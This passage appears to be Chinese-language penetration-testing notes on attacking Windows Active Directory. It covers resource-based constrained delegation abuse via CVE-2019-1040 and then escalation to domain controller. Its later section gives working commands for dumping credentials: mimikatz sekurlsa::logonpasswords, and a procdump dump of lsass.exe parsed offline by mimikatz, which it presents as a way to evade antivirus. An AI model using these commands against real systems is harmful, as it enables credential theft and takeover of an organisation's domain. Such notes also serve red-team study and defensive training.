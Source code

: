 9. 和 [5.3.3](#5.3.3 案例 - 本地主机提权) 的基本使用相比，使用 CVE-2019-1040 的目的在于将可攻击的范围扩大。基本使用中，可以横向的主机只有 `mS-DS-Creator-SID` 为已经拿下的域用户。但是通过 CVE-2019-1040，却可以修改目标主机的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，从而使其满足攻击条件。需要注意的是，**发起 NTLM 请求方（被攻击方）和域控主机不能是同一台主机**。想要获取域控权限，NTLM 请求方可以是域控的备份机器。

10. 还有其他的攻击，详见：

    > https://exp10it.io/2023/08/%E5%9F%BA%E4%BA%8E%E8%B5%84%E6%BA%90%E7%9A%84%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE-rbcd-%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#rbcd-%E5%90%8E%E9%97%A8

## 6. 提权到域控

### 6.1 本地高权限导出域控 Hash 或明文密码

1. 如果当前拿到的机器是**本地管理员**，且域控有登陆过，那么就可以上传 mimikatz 然后导出 NTLM Hash（拿到 Hash 可以[用 PsExec 尝试登录](#4.2.3 使用 MSF 的 Hash 模块)域控主机了），有概率有明文密码（**Winserver12 版本以上**内存中不保存明文密码）：
    ```bash
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```

    ![image-20240718122024198](Kerberos/image-20240718122024198.png)

2. 如果存在杀软，那么 mimikatz 可能会被杀掉，所以通过 procdump（Windows 内置调试工具） + mimikatz 的组合来绕过。先导出，然后通过 mimikatz 本地读：
    ```bash
    # 导出
    procdump64.exe -accepteula -ma lsass.exe lsass.dmp
    # 使用 mimikatz 读取
    mimikatz.exe "sekurlsa::minidump C:\Users\Administrator\Desktop\lsass.dmp" "sekurlsa::logonpasswords full" "exit" > 1.txt
    ```
